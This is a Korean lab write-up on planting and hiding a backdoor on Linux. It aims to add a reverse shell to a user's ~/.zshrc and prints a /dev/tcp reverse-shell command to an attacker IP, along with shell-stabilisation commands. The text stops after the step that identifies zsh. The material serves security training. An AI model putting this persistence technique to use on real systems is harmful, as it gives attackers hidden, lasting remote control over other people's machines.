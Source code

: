 # 백도어 삽입 & 은폐 실습

공격자는 단순히 시스템에 침투하는 것만으로는 끝나지 않는다.  
침투 이후에도 지속적인 접근을 유지하고, 시스템을 통제하기 위해서 백도어를 설치하고 은폐하는 작업을 거치게 된다.  

<br>

### Implantation (삽입)
- 공격자가 시스템 내부에 악성 코드를 설치하고, 접근을 위한 기반을 확보하는 단계이다.
- 이 단계의 목적은 취약점을 통해 공격에 성공한 시스템이, 해당 경로를 패치하여도 다시 쉽게 접근하여 시스템을 제어하기 위한 단계이다.
- 이후 하게 될 실습의 대다수는 권한 상승 이후에 실행되며, 권한 상승을 통해 권한을 얻었다 가정하고 실행한다.

<br>

### Stealth (은폐)
- 삽입된 백도어를 설치했다면, 시스템 내부에서 탐지되지 않도록 숨기는 단계이다.
- 단순히 파일을 숨기는 것 외에도 운영체제의 관측 지점 전반을 우회하거나 조작하는 것이 핵심이다.

<br>
<br>

### 백도어 구현     
- **상황** : 리눅스에서 일반 사용자 계정에 일시적인 쉘 접근 권한을 가진 상태.
- **목표** : `kali` 사용자가 터미널을 실행할 때마다 공격자의 서버로 리버스 쉘을 연결하도록 만들기.
- **방법** : `~/.zshrc` 초기화 스크립트에 리버스쉘 코드를 삽입
<br>

터미널을 실행할 때마다 공격자에게 리버스 쉘 연결을 하기 위해서,  
`bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'`를 실행시키도록 할 것이다.  

<br>

**1. 공격자는 초기 쉘을 얻었으므로 우선 Shell 안정화를 위한 명령어들을 입력해준다.**  

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl Z
stty raw -echo; fg
stty rows 38 columns 116
```

<br>

**2. bash를 킬 때 자동 실행되는 파일이 뭔지 찾아준다.**

```bash
echo $SHELL
```

<br>

<img src="https://github.com/user-attachments/assets/91c6c6d0-cb4d-4ed7-8706-3222f554ebfa" width=300>    

Kali1 에서 쓰는 기본 쉘이 zsh인 것을 알아냈다.   
